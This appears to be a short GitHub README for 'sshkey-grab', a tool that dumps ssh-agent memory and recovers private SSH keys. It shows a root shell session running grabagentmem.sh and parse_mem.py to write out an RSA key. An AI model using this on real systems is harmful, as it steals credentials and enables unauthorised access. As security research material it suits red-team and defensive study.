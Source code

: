 sshkey-grab
===========

Grab ssh keys from ssh-agent

root@test:/tmp# grabagentmem.sh 
Created /tmp/SSHagent-17019.stack 

root@test:/tmp# parse_mem.py /tmp/SSHagent-17019.stack /tmp/key
Found rsa key
Creating rsa key: /tmp/key.rsa 


Guess what you got the key!
